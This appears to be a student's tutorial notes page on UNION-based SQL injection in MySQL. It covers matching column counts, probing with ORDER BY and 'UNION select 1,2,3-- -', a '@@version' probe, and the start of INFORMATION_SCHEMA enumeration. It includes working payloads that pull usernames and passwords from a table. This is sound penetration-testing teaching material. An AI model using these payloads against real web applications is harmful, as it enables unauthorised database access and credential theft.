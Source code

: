 ```sql
SELECT * FROM ports UNION SELECT * FROM ships;
```

{% hint style="info" %}
A `UNION` statement can only operate on `SELECT` statements with an equal number of columns.
{% endhint %}

An example query

```sql
# Query
SELECT * FROM products WHERE product_id = 'user_input'

# Union query as injection
SELECT * from products where product_id = '1' UNION SELECT username, password from passwords-- '
```

When using UNION the number of columns must match the number of columns in original query. For example if a original query selects 4 columns but you only request 1 column like usernames the injection fails.&#x20;

We can ues junk values like numbers to fill the extra columns. NULL works as well.

```sql
# 2 columns
UNION SELECT username, 2 FROM passwords-- 

# 4 columns
UNION SELECT username, 2, 3, 4 FROM passwords-- 
```

#### Detecting numbers of columns

There are 2 methods of detecting the number of columns:

1. Using `ORDER BY`
2. Using `UNION`&#x20;

`ORDER BY` works with injecting column 1 ,  column 2 until we get an error saying the column dosnt exist.  Like `' order by 1-- -` and then `' order by 2-- -` untill we get an error.

The other option is using `cn' UNION select 1,2,3-- -` or `cn' UNION select 1,2,3,4-- -` .

### <mark style="color:yellow;">Location of injection</mark>

Some web apps only display some columns. It can happen we inject a query but it will not be printed on the page. To check if our data is being returned we can use&#x20;

```sql
cn' UNION select 1,@@version,3,4-- -
```

### <mark style="color:yellow;">Pulling Data</mark>

The [INFORMATION\_SCHEMA](https://dev.mysql.com/doc/refman/8.0/en/information-schema-introduction.html) database contains metadata about the databases and tables present on the server. The table [SCHEMATA](https://dev.mysql.com/doc/refman/8.0/en/information-schema-schemata-table.html) in the `INFORMATION_SCHEMA` database contains information about all databases on the server
